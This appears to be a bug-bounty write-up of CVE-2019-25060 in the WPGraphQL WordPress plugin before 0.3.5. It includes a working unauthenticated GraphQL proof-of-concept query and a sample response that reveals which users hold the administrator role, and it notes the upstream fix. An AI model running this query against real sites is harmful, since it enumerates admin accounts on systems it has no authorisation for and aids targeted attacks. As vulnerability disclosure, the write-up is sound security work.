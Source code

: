 ```yaml
---
tags: bugbounty
---
```


# Description

The WPGraphQL plugin (v < 0.3.5) doesn't properly restrict access to information about other users' roles on the affected wordpress site. Because of this, a remote attacker could forge a GraphQL query to retrieve the account roles of every user on the site. This has been assigned CVE-2019-25060.

# Proof of Concept

1. Make this GraphQL call as an unauthenticated user on any wordpress site using this plugin:
    ```
    query getUsers{
        users(where:{role:ADMINISTRATOR}){
            edges{
                node{
                    userId
                    name
                }
            }
        }
    }
    ```
    The response will be:

    ```
    {
    "data": {
        "users": {
        "edges": [
            {
            "node": {
                "userId": 1,
                "name": "root"
            }
            }
        ]
        }
    }
    }
    ```
    An unauthenticated user is able to determine the users with admin role on the wordpress site. This issue has been fixed at [https://github.com/wp-graphql/wp-graphql/pull/900](https://github.com/wp-graphql/wp-graphql/pull/900).